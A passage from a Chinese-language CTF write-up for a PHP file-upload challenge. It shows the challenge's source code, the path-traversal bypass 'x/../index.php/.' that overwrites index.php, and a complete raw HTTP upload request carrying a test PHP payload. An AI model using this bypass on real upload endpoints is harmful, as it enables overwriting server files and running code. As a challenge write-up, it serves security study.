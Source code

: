 ```
      break;
    }

    $name = $dir . $_GET["name"];
    if (preg_match("/[^a-zA-Z0-9.\/]/", $name) ||
      stristr(pathinfo($name)["extension"], "h")) {
      break;
    }
    move_uploaded_file($_FILES['file']['tmp_name'], $name);
    $size = 0;
    foreach (scandir($dir) as $file) {
      if (in_array($file, [".", ".."])) {
        continue;
      }
      $size += filesize($dir . $file);
    }
    if ($size > 100000) {
      clear($dir);
    }
    break;
  case 'shell':
    ini_set("open_basedir", "/var/www/html/$dir:/var/www/html/flag");
    include $dir . "index.php";
    break;
  default:
    highlight_file(__FILE__);
    break;
}
```

很简单的代码，差不多就是，你可以上传任意文件，但没有权限访问上传的文件。

所以思路很清楚，需要想办法覆盖index.php

很简单，用`x/../index.php/.`就可以绕过

构造请求

```
POST /?action=upload&name=x/../index.php/. HTTP/1.1
Host: 202.120.7.217:9527
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.13; rv:58.0) Gecko/20100101 Firefox/58.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Content-Type: multipart/form-data; boundary=---------------------------18588164571683579890682678358
Content-Length: 420
Cookie: PHPSESSID=mu9mc6r8n7ccenpb94rrd1ibk5
Connection: close
Upgrade-Insecure-Requests: 1

-----------------------------18588164571683579890682678358
Content-Disposition: form-data; name="file"; filename="test.php"
Content-Type: text/php

	

<?php echo 2333;?>

-----------------------------18588164571683579890682678358
Content-Disposition: form-data; name="submit"

Submit
-----------------------------18588164571683579890682678358--

```

  [1]: http://static.zybuluo.com/LoRexxar/wfir4flmnno2knv9b5h21ibg/image.png